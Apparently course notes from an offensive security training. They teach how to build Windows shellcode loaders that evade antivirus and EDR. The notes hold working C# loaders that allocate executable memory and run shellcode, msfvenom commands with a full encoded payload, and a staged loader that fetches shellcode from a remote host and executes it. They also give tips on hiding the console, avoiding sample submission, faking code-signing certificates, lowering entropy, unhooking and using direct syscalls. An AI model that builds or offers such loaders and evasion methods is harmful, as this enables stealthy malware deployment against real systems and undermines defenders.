Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
OPSEC HINT : Let's apply some basic best practices when we compile the following code
- add and icon file to the dotnet app.
- add metadata
- Remove comments
- compile with CSC
When compiling the dotnet code you can specify the .net version
We'll need the .Net Developer Pack 4.8, let's see if it is installed:
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.
Let's generate a Havoc shellcode payload (on KALI using the Havoc GUI):
Screenshots + xxd (hexview) payload.
Switch to your windows and under "C:\THEV\Labs\LocalLoader" you'll find a csharp solution file - open that with Visual Studio 2022.
We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).
using System;
using System.Runtime.InteropServices;
namespace ShellcodePayload
{
class Payload
{
[DllImport("kernel32.dll")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32.dll")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32.dll")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
static void Main()
{
// (1) insert our shellcode
byte[] shellCode = new byte[] { /* insert shellcode here */ };
// (2) allocate memory for shellcode
UInt32 MEM_COMMIT = 0x1000;
UInt32 PAGE_EXECUTE_READWRITE = 0x40;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// (3) inject shellcode into allocated memory
Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);
// (4) execute injected shellcode
UInt32 threadId = 0;
IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}
Here's a small shellcode formatter toos in powershell, it converts a binary file to csharp:
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
Hooka
Donut
Lab - Basic Loader
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
When building a shellcode loader, you can use any coding language, c, c++, c#, powershell, rust, golang and so on. In general, detection rates for languages like golang, rust and nim are lower, they are much harder to analyze and reverse than standard c or c# code. In this training we''l be using C as our language, as it is a low level programming language (no CLR that does JIT compiling like with C# or powershell), remember most windows API functions are written in C/C++ as well.
Advantages of Using C on Windows
Direct Access to Windows API:
- Native integration with core Windows features like process management, file I/O, and security.
- Low-level control over kernel objects, memory, and hardware for system-level tasks.
High Performance:
- Extremely fast and efficient due to minimal runtime overhead.
- No garbage collection, allowing full control over memory and reducing latency.
Portability and Compatibility:
- Backward compatibility with older Windows versions.
- Portable language that can be adapted for other operating systems with adjustments.
Small Footprint:
- Lightweight programs with smaller memory and disk usage, ideal for resource-limited scenarios.
Extensive Tooling and Libraries:
- Access to the Windows SDK, C headers, and libraries optimized for Windows development.
- Support for third-party C libraries like OpenSSL and SQLite.
Control Over System Resources:
- Fine-grained memory management (e.g.,
malloc,free) for optimization. - Direct use of Windows threading and synchronization APIs for efficient multitasking.
To build our own shellcode loader we need 4 functions:
VirtualAlloc (Kernel32.dll) CreateRemoteThread (Kernel32.dll) MarshallCopy WaitForSingleObject (Kernel32.dll)
Generate havoc shellcode/helloworld dialog
EXPLAIN P/INVOKE - D/INVOKE: PINVOKE
https://pinvoke.net/
https://github.com/TheWover/DInvoke
On Kali
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f csharp -b '\x00\x0a\x0d\x20'
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 367 (iteration=0)
x64/xor chosen with final size 367
Payload size: 367 bytes
Final size of csharp file: 1896 bytes
byte[] buf = new byte[367] {0x48,0x31,0xc9,0x48,0x81,0xe9,
0xd7,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,0xff,0xff,0x48,
0xbb,0x24,0x95,0x1f,0xa0,0x28,0x38,0x25,0xc8,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xd8,0xdd,0x9e,
0x44,0xd8,0xc7,0xda,0x37,0xcc,0x59,0x1f,0xa0,0x28,0x79,0x74,
0x89,0x74,0xc7,0x4e,0xf6,0x60,0x09,0xf7,0xad,0x6c,0x1e,0x4d,
0xc0,0x60,0xb3,0x77,0xd0,0x6c,0x1e,0x4d,0x80,0x65,0x09,0xec,
0x80,0x2b,0x22,0x55,0xea,0x60,0xb3,0x57,0x98,0x6c,0xa4,0xdf,
0x0c,0x14,0x59,0x59,0xca,0x08,0xb5,0x5e,0x61,0xe1,0x35,0x64,
0xc9,0xe5,0x77,0xf2,0xf2,0x69,0x69,0x6d,0x43,0x76,0xb5,0x94,
0xe2,0x14,0x70,0x24,0x18,0x42,0x14,0x67,0xb8,0x23,0x3a,0x2a,
0x4d,0x56,0x95,0x1f,0xa0,0xa3,0xb8,0xad,0xc8,0x24,0x95,0x57,
0x25,0xe8,0x4c,0x42,0x80,0x25,0x45,0x5b,0x2b,0x68,0x18,0xae,
0x80,0x3c,0xdc,0x1e,0x70,0x78,0xdb,0x73,0x80,0xdb,0x5c,0x52,
0x91,0xe1,0x79,0xae,0xfc,0xac,0xdd,0x1e,0x76,0x60,0x09,0xe5,
0x89,0xe5,0x5c,0x12,0x0c,0x69,0x39,0xe4,0xf0,0xc4,0xe0,0xee,
0xec,0x2b,0x74,0x01,0xc0,0x61,0xac,0xce,0xd5,0xf0,0x60,0x61,
0x43,0x64,0xb1,0x56,0xa1,0xf8,0x5e,0x64,0x43,0x28,0xdd,0x5b,
0x2b,0x68,0x24,0x6c,0xc9,0xf4,0xd4,0x94,0xa4,0xa0,0x79,0x7d,
0x89,0x7c,0xcb,0x46,0xe8,0x29,0xe8,0x7f,0x89,0x7c,0xd4,0x46,
0xe1,0x72,0x70,0xa6,0x24,0x04,0xd4,0x4d,0x5f,0xc8,0x60,0x64,
0x91,0x7e,0xdd,0x94,0xb2,0xc1,0x73,0xda,0x37,0xdb,0xc8,0xf7,
0xab,0x28,0x38,0x25,0xbd,0x57,0xf0,0x6d,0x93,0x1a,0x16,0x41,
0xa4,0x48,0x95,0x46,0xe1,0x92,0x74,0x52,0xee,0x23,0x6a,0xca,
0xe9,0xef,0xf9,0x25,0xc8,0x24,0x95,0xf7,0xb8,0x28,0x38,0x25,
0x9b,0x51,0xf6,0x7c,0xc5,0x5b,0x4b,0x43,0xbd,0x48,0xb5,0x5a,
0xd8,0x4d,0x5b,0x50,0xbc,0x4d,0xfa,0x71,0x80,0x12,0x11,0x25,
0x92,0xcc,0x99,0x1f,0xa0,0x28,0x7b,0x57,0xa1,0x49,0xe6,0x70,
0xce,0x6b,0x77,0x77,0x8d,0x24,0xd4,0x47,0xe8,0x19,0xf1,0x64,
0x72,0x61,0x16,0x49,0xa7,0xd7,0xed,0x6d,0xf9,0xed,0xd4,0xa5,
0x50,0x9d,0x9a,0x73,0x37,0xf1,0x95,0x1f,0xa0,0x28,0x38,0x25,
0xc8};
xxd --canonical meterpreter.exe | more
Note on compiling:

Convert the shellcode to a CSharp array:
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
Load this shellcode into you basic loader template:
using System;
using System.Runtime.InteropServices;
namespace ShellcodePayload
{
class Payload
{
[DllImport("kernel32.dll")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32.dll")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32.dll")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32.dll", SetLastError = true)]
private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
private static extern IntPtr GetCurrentProcess();
static void Main()
{
// (1) retrieve shellcode from function
byte[] shellCode = GetShellcode();
// Print the shellcode to the screen
Console.WriteLine("Shellcode: " + BitConverter.ToString(shellCode));
// (2) allocate memory for shellcode
UInt32 MEM_COMMIT = 0x1000;
UInt32 PAGE_EXECUTE_READWRITE = 0x40;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// (3) inject shellcode into allocated memory using WriteProcessMemory
IntPtr bytesWritten;
bool result = WriteProcessMemory(GetCurrentProcess(), funcAddr, shellCode, (uint)shellCode.Length, out bytesWritten);
if (!result)
{
Console.WriteLine("Failed to write shellcode to memory.");
return;
}
Console.WriteLine($"Successfully wrote {bytesWritten} bytes to memory.");
// (4) execute injected shellcode
UInt32 threadId = 0;
IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
// Function to return the shellcode
private static byte[] GetShellcode()
{
0x56,0x48,0x89,0xe6,...
};
}
}
OPSEC TIP : Clear out the shellcode buffer after injecting it into memory (this becomes more revelevant when we encrypt/obfuscate our shellcode) to evade memory scanning.
Array.Clear(buf, 0, buf.Length);
OPSEC TIP : Remove comments from your code, and avoid using variables like "buf" and "shellcode".
OPSEC TIP: DON'T use RWX permissions, split them up in RW and RX the RW-to-RX approach enhances security by ensuring the memory is only executable when necessary. Extend the code to integrate with DNS-based key retrieval or other loader logic, ensuring all operations are performed securely. For example, after retrieving the XOR key, allocate memory as RW, write the decrypted shellcode, change to RX, and execute, minimizing exposure.
WHY? assignung RWX to a dynamically allocated memory basically scream "HEY I'M DOING SOMETHING REALLY WEIRD!" - EDR's will typically flag this and once a
threadis created to the address of this memory space (= start the code in the memory region), they'll initiate a memory scan on the contents of that memory region - or simply just kill the process immediately. Also forensic analysts will flag this immediately and quite a lot om memory analysis tools (i.e. volatility) likewise will flag on this.
Below you can see when we run our basic loader that ge can run a simple powershell tools that scans all running processes for RWX permissions that have a createthread associated with them:
.\get-injectedThread.ps1

UInt32 PAGE_READWRITE = 0x04;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_READWRITE);
and
UInt32 PAGE_EXECUTE_READ = 0x20;
UInt32 oldProtect;
bool protectResult = VirtualProtect(funcAddr, (UInt32)shellCode.Length, PAGE_EXECUTE_READ, out oldProtect);
if (!protectResult)
{
Console.WriteLine("Failed to change memory protection.");
return;
}
HIDE the console window
[DllImport("user32.dll")]
private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
[DllImport("kernel32.dll")]
private static extern IntPtr GetConsoleWindow();
const int SW_HIDE = 0;
var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
MODULARITY
In order to keep our shellcode loader neatly organized we'll make it modular - so instead of just adding code to the main program - let's put our functions in seperate classes (.cs files) that we can simply call from main. This will allow us to keep adding functionality while keeping an oversight of where we are and what we're. doing
Forensics
Get-InjectedThread
Lab - XOR Loader
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
Let's make our loader more evasive by encoding our payload with XOR.
- Create a raw payload that pops up a messagebox, and host it on our kali machine.
cd /opt/msf/payloads
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f raw -b '\x00\x0a\x0d\x20' -o rawmsgbox.bin
updog2
- Let's download the payload and encode it XOR, and convert it to a csharp array we can use in our loader
ENTROPY
ENTROPY DEFINITION: Entropy indicates the randomness within a data set. Higher entropy inidcates higher randomness. Files with high entropy (>7.5) are typically blocked by AV/EDR when touching the disk.

Let's check the entropy of our XORLoader. We can use sigcheck from the systeminternals suite.
sigcheck64.exe -a -h .\XLoader.exe
or
sigcheck64.exe -a XLoader.exe | FINDSTR /I entropy

Our Entropy here is "5" - which is pretty low and shouldn't flag AV/EDR.
- LOGIC.NET / BABEL
Fixing Entropy
- https://github.com/gmh5225/shellcode-EntropyFix
- https://github.com/AnErrupTion/LoGiC.NET -https://www.youtube.com/watch?v=Q2vazB6SYfg&t=4042s
KLEENSCAN
https://kleenscan.com/scan_result/f76da10390c0a2c03755cde6f26a242c525589e15534c60d612a62aa27d2c9d9

LAZYSIGN + TIMESTOMP
https://captmeelo.com//redteam/maldev/2022/11/07/cloning-signing.html
Lab - Staged Loader
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
BEST PRACRICES: By removing the payload from our loader, there is no malicious code that static analysis can detect. HOWEVER, by shifting the code from being hardcoded into the loader to external server, it provides more IOC's for dynamic/behavioural analysis. Therefore make sure that:
- Host your payload on a reputable server (onedrive, Dropbox, Akamai etc...)
- Use an FQDN, not an IP address (i.e. key.crimsoncore.be instead of 192.168.100.25)
- Use HTTPS to download the shellcode - the shellcode never touches disk, it gets loaded into the buffer of a program, but we want to evade network based detections
- make the webrequest look legit (user agent, headers etc...)
- Use a name for the shellcode that looks normal (i.e. not shellcode.bin but update.dat for example)
Advantages : Easy to change shellcodes (as they're hosted), harder to detect by static analysis.
using System;
using System.Runtime.InteropServices;
using System.Net;
namespace ShellcodePayload
{
class Payload
{
[DllImport("kernel32.dll")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32.dll")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32.dll")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("user32.dll")]
private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
[DllImport("kernel32.dll")]
private static extern IntPtr GetConsoleWindow();
const int SW_HIDE = 0;
static void Main()
{
var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
string payloadUrl = "http://10.0.0.6:9090/demon.sc.x64.b64";
byte[] shellCode;
using (WebClient client = new WebClient())
{
// Add HTTP headers
client.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36");
client.Headers.Add("Accept", "application/octet-stream");
client.Headers.Add("Accept-Encoding", "gzip, deflate");
client.Headers.Add("Accept-Language", "en-US,en;q=0.9");
client.Headers.Add("Referer", "https://www.contoso.com/support/downloads/latest-updates");
// Download the Base64-encoded string
string base64String = client.DownloadString(payloadUrl);
// Decode the Base64 string to bytes
shellCode = Convert.FromBase64String(base64String);
}
UInt32 MEM_COMMIT = 0x1000;
UInt32 PAGE_EXECUTE_READWRITE = 0x40;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);
UInt32 threadId = 0;
IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}
Chapter 1.3 - Evasion
Tips and tricks
strings - HxD/xxd entropy
IAT & String obfuscation
Build as release and disable optimization (debug includes symbols)
Fake Certs
Add face code-signing certs https://github.com/jfmaes/LazySign
compilation meta data
Renaming functions
[DllImport("kernel32.dll", EntryPoint ="VirtualAlloc", SetLastError = false, ExactSpelling = true)]
private static extern IntPtr VirtualAlloc(
IntPtr lpStartAddr,
UInt32 size,
UInt32 flAllocationType,
UInt32 flProtect);
Change to :
[DllImport("kernel32.dll", EntryPoint ="VirtualAlloc", SetLastError = false, ExactSpelling = true)]
private static extern IntPtr MemReserve(
IntPtr lpStartAddr,
UInt32 size,
UInt32 flAllocationType,
UInt32 flProtect);
Entrypoint -> Specific entrypoint in kernel32.dll basically creating an alias to the function Add some options to evade AV -> SetLastError, ExactSpelling
Base64 Encoding
XOR Encoding
Array Reversing
Syscalls
Unhooking
Litterbox / Avred (Forensics)
1. Qu1ckSc0pe
https://github.com/CYB3RMX/Qu1cksc0pe

2. Detect it Easy
https://github.com/horsicq/Detect-It-Easy/

3. Litterbox
Install Python 3.x
cd git
git clone https://github.com/BlackSnufkin/LitterBox.git
cd LitterBox
pip install -r requirements.txt
Run the server manually:
python litterbox.py
Browse to the server GUI (from windows or Kali) http:\\localhost:1337

Or install as a service:
nssm install Litterbox "C:\\Users\\threatadmin\\AppData\\Local\\Programs\\Python\\Python312\\python.exe" "C:\\git\\litterbox\\litterbox.py"
nssm set Litterbox AppDirectory "C:\\git\\litterbox\\"
nssm.exe start litterbox
4. Procdump
procdump -ma [Name or PID]
5. AUTORUNS (SYSINTERNALS)
https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns
DNSpy / Dotpeek
https://www.jetbrains.com/decompiler/download/#section=web-installer
[book]
title = "My Awesome Book"
[output.wordcount]
[output.html]
TODOs:
TODO: Important thing to doTODO: Less important thing to doDONE: Breath deeply and improve karma
CHAT
Please insrall DISCORD on your machine - we'll be using discord for sharing links, documents, chatting, questions and banter. At the beginning of the class you'll receive an invite to join the Threat Hunting Academy channel.
ACCESS to the lab:
Students get access to a central GUACAMOLE server, from there they can RDP into their Windows 10 machine and use SSH (native ssh in WIN10 or putty) to their Kali machine.
The guacamole server is : GUACAMOLE
Credentials are : studentXX/WEWILLTELLYOU (where XX is a number from 01 to 15)
RDP credentials are : studentXX/WEWILLTELLYOU (where XX is a number from 01 to 15)
https://guacamole.th.denarm.be/
Example text box
Frameworks
- https://practicalsecurityanalytics.com/specterinsight/
- https://github.com/Adaptix-Framework/AdaptixC2
- https://github.com/its-a-feature/Mythic
Heuristics
Differences in Capabilities of Heuristic Scanning in Microsoft Defender with and without Cloud Protection
With Cloud Protection Turned On:
- Enhanced Detection: Cloud protection leverages Microsoft's vast cloud infrastructure to provide near-instant detection and blocking of new and emerging threats. This means that heuristic scanning can benefit from real-time updates and advanced machine learning models that are continuously updated in the cloud.
- Behavior Analysis: The cloud can analyze suspicious behavior and patterns more effectively, providing a higher level of protection against sophisticated threats.
- Faster Response: Cloud protection allows for quicker response times to new threats, as the cloud can process and analyze data much faster than local systems.
Without Cloud Protection Turned On:
- Local Heuristics: Heuristic scanning relies solely on the local database and predefined rules. This means it may not be as effective in detecting the latest threats that have not yet been added to the local database.
- Limited Updates: Without cloud protection, updates to heuristic scanning capabilities are limited to periodic updates rather than real-time enhancements.
- Slower Detection: The detection and response times may be slower, as the local system has to process and analyze threats without the additional computational power and data available in the cloud.
Summary
Enabling cloud protection significantly enhances the heuristic scanning capabilities of Microsoft Defender by providing real-time updates, advanced behavior analysis, and faster response times.
References:
- Overview of next-generation protection in Microsoft Defender for Endpoint
- Advanced technologies at the core of Microsoft Defender Antivirus
Hooks (User land)

Explain hooking with FRIDA
SYLANTSTRIKE
https://github.com/CCob/SylantStrike
x64dbg
HookChecker mr. Un1c0d3r
dump exported funtions ntdll.dll kernelbase.dll kernel32.dll
Screenshot IDA JUMP
https://github.com/Almorabea/HookSweeper
https://github.com/Mr-Un1k0d3r/EDRs
Hook_finder64.exe
https://github.com/asaurusrex/Probatorum-EDR-Userland-Hook-Checker
compile in visual studio
Bitdefender install -> 102 fnctions hooked
windgb:
u NtOpenProcess
!chkimg ntdll
needs symbols in windbg
.sympath srv*https://msdl.microsoft.com/download/symbols
!sym noisy;.reload /f /v
u NtReadVirtualMemory
ntdll!NtReadVirtualMemory:
00007ffd3ef0dcc0 e95b331600 jmp 00007ffd3f071020
00007ffd3ef0dcc5 cc int 3 00007ffd3ef0dcc6 cc int 3
00007ffd3ef0dcc7 cc int 3 00007ffd3ef0dcc8 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (000000007ffe0308)],1 00007ffd3ef0dcd0 7503 jne ntdll!NtReadVirtualMemory+0x15 (00007ffd3ef0dcd5) 00007ffd3ef0dcd2 0f05 syscall
00007ffd`3ef0dcd4 c3 ret
then look at the jump address and disassemble:
u 00007ffd3f071020 00007ffd3f071020 36363636488da42400ffffff lea rsp,ss:[rsp-100h]
00007ffd3f07102c 363648898c2438ffffff mov qword ptr ss:[rsp-0C8h],rcx 00007ffd3f071036 48b9700da2cdf47d0000 mov rcx,7DF4CDA20D70h
00007ffd3f071040 ff1522000000 call qword ptr [00007ffd3f071068]
00007ffd3f071046 9c pushfq 00007ffd3f071047 48f78424f8feffffffffffff test qword ptr [rsp-108h],0FFFFFFFFFFFFFFFFh
00007ffd3f071053 740a je 00007ffd3f07105f
00007ffd`3f071055 9d popfq
**call qword ptr [00007ffd3f071068]:** This is a crucial instruction. It's acallto an address stored in memory at00007ffd3f071068. This is almost certainly a call to the actual hook function – the code that performs the custom actions. The address 00007ffd3f071068` is acting as a pointer to the hook function.
**Examine 00007ffd3f071068:** Usedq 00007ffd3f071068 in WinDbg to see what value is stored at that address. This is the address of the actual hook function.
dq 00007ffd3f071068
00007ffd3f071068 00007df4cda31000 cccccccccccccccc 00007ffd3f071078 cccccccccccccccc 24a48d4836363636
00007ffd3f071088 89483636ffffff00 b948ffffff38248c 00007ffd3f071098 00007df4cda20dc0 489c0000002215ff
00007ffd3f0710a8 fffffffef82484f7 36369d0a74ffffff 00007ffd3f0710b8 9dfffffef024a4ff ccccccccccccccc3
00007ffd3f0710c8 00007df4cda31000 cccccccccccccccc 00007ffd3f0710d8 cccccccccccccccc 24a48d4836363636
The important part is 00007df4cda31000. This is the address where the *real* hook function is located. The rest of the output (cccccccc...) is just filler (oftenccrepresents anint 3` instruction, a common breakpoint or padding value).
Next step:
Now that you have the address of the actual hook function (00007df4cda31000), you need to disassemble it to understand what it's doing.
```code
u 00007df4`cda31000
00007df4`cda31000 9c pushfq
00007df4`cda31001 48f705f4efffffffffffff test qword ptr [00007df4`cda30000],0FFFFFFFFFFFFFFFFh
00007df4`cda3100c 7515 jne 00007df4`cda31023
00007df4`cda3100e 9d popfq
00007df4`cda3100f 488b4910 mov rcx,qword ptr [rcx+10h]
00007df4`cda31013 48894c24f8 mov qword ptr [rsp-8],rcx
00007df4`cda31018 488b8c2440ffffff mov rcx,qword ptr [rsp-0C0h]
00007df4`cda31020 c20001 ret 100h
!address 00007df4`cda30000
Usage: <unknown>
Base Address: 00007df4`cda30000
End Address: 00007df4`cda31000
Region Size: 00000000`00001000 ( 4.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000002 PAGE_READONLY
Type: 00020000 MEM_PRIVATE
Allocation Base: 00007df4`cda30000
Allocation Protect: 00000002 PAGE_READONLY
Content source: 1 (target), length: 1000
SylentStrike (Unhooking) custom EDR
https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
BestEDROfTheMarket
https://github.com/Xacone/BestEdrOfTheMarket
Unhooking by releading ntdll.dll into memory -> some EDR's detect loading NTDLL from disk...
Bypass, create a suspended process (this will only load NTDLL, not the EDR dll) -> then copy the clean ntdll from the suspended process and overwrite it in the current process, unhooking the functions.
PROCESS HOLLOWING (Freeze)
https://hawk-eye.io/2023/06/freeze-a-payload-toolkit-for-bypassing-edrs-using-suspended-processes/
This can also be used to enumerate syscalls without touching NTDLL!
https://cymulate.com/blog/extracting-syscalls-from-a-suspended-process/
SYSCALLS (Kernel mode)
https://hfiref0x.github.io/X86_64/NT10_syscalls.html
| System Call | Windows 10 | Description |
|---|---|---|
NtCreateThread | 0x004e | Creates a thread to execute within the virtual address space of the calling process. |
NtAllocateVirtualMemory | 0x0018 | Allocates memory in the virtual address space of the calling process. |
NtWriteVirtualMemory | 0x003a | |
NtWaitForSingleObject | 0x0004 | Waits until the specified object is in the signaled state or the time-out interval elapses. |
https://github.com/joshfinley/SyscallDumper
https://passthehashbrowns.github.io/hiding-your-syscalls
https://github.com/fin3ss3g0d/HookFinder
PS C:\git\EDRs> .\hook_finder64.exe C:\windows\system32\ntdll.dll
https://www.secunnix.com/en/blog/cat-and-mouse-game
A. Direct Syscall
In its simplest form, the direct system calls technique can be said to implement the APIs to be used in the malware with assembly commands in the code instead of getting them through ntdll.dll, in order to prevent EDR sensors from hooking.
In this way, the program does not refer to ntdll.dll and uses the APIs it needs directly. Since ntdll.dll is not called, the EDR sensors will be blind because they do not inject themselves into the process. There are many PoCs for this technique, For example, Hells Gate, Halo's Gate, Syswhispers2 and 3 are successful studies that prove the application of direct syscall.
Call stack spoofing : making it look like the syscall cam from ntdll (or 2 other dll's that normally uses syscalls) with memory forensics (i.e. volatilty) this can be detected, EDR's are in a tough spot since they need to do this in real time!
https://www.youtube.com/watch?v=PmqvBe1LSZc&t=2286s

Unfortunately, this method, which was quite effective at first, can be detected by some EDR solutions through kernel callbacks, since the system calls are executed outside of ntdll.dll and the RET command is located directly in the memory area of the program to which the direct syscall is applied. Because normal programs do not behave like this. As you can see, it comes back to what we explained under the heading of normalization and reputation.
B. Indirect Syscall
Indirect system calls are similar to the direct system calls technique in terms of their working logic. But beyond that, they have a few minor differences in the processing of system calls.
In the direct syscall technique, while the process belonging to ntdll.dll is completely outside the event and the RET commands are in the program itself instead of this DLL, in the case of indirect syscall, since the calls are executed through ntdll.dll, they are perceived as normal by EDR processes. Okay. So, if you ask how EDR cannot perform the hook operation, the logic is actually simple. During the execution of the malicious code, the JMP command goes to the block where the system call is located, instead of pointing to the entry point (starting point) of ntdll.dll.
Thus, a device unaware of ntdll.dll It is a little more difficult to detect since there is no execution process.

Although both techniques still work, the indirect syscall method can help develop less detectable malware. Note that these are methods to avoid user mode hooking. If you are dealing with a security solution that does kernel mode hooking, this techniques can be identified. In addition, the Event Tracing for Windows (ETW) structure offered by Microsoft for Windows systems can be used by some EDRs to control the stack structures where calls are made. If you want to see a very clean implementation of both techniques, read the article below. We can recommend it.
https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls https://github.com/Maldev-Academy/HellHall
regular virtualAlloc through win32api vs. direct syscall using SSN.
Syswhispers2 -> import in visual studio project to enumerate syscalls
Kernel Callbacks
Call stack spoofing : making it look like the syscall cam from ntdll (or 2 other dll's that normally uses syscalls)
EDR Stuff
HINT : Writing your payloads in something else that c, C++, CSharp typically has more evasive results. So exactly the same functionality, just switching the languags throw a lot of AV/EDR's off, or at least decrease the detection rate (i.e golang, nim, ...) When using payloads, DLL's evade EDR's than Exe's. -> Shellcode = not exe/dll!!!
https://blog.deeb.ch/posts/how-edr-works/
DLL Sideloading, powershellshell SharpDDL Proxy, DDLHijacks.net Cyphercon 6 windows SKD Libraries - signed by MS (EDR's track default DLL's and their execution paths) use procmon to see DLL's not found
Evading AV (signatures), by downloading the shellcode remotely, instead of embedded it might trigger behavioural detections (unsigned process, making a network connection). So maybe we can embed the encrypted shellcode in an .ico file, in a resource file.
OPSEC Hint : EDR's will look at Entropy, so anything that is encrypted/packed/compressed (high level of randomization), will have a very high entropy (randomness level). We can optimize our shellcode by adding nullbytes to decrease the entropy. This is REALLY important
https://github.com/gmh5225/shellcode-EntropyFix sigcheck.exe -h -a "D:\Malware\11"
As compression and encryption algorithms' output usually consists of high entropy data, one can say any file with entropy greater than 7.0 is likely compressed, encrypted, or packed (in case of executables).
Also remember static/signature/heuristic detection can flag suspicious elements of code, so the cleaner we bypass, the less EDR gets a headstart with suspicious detections passed on from the static engine.
- code-signed files are more losely inspected
- it's all about adding weight of malicious indicators
How EDR's do their thing
| Feature | Description |
|---|---|
| Kernell callbacks | Process creation, dll loading etc |
| ETW | System events |
| AMSI | Jscript, vbscript, dotnet, powershell -> scanning with signatures |
| System call Monitoring | Hooking API's in process memory |
- https://frida.re/docs/frida-trace/
- https://github.com/CCob/SylantStrike
- https://www.vaadata.com/blog/antivirus-and-edr-bypass-techniques/
- https://github.com/Xacone/BestEdrOfTheMarket
ETW Stuff
| Provider | GUID |
|---|---|
| Microsoft-Windows-Kernel-Process | {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} |
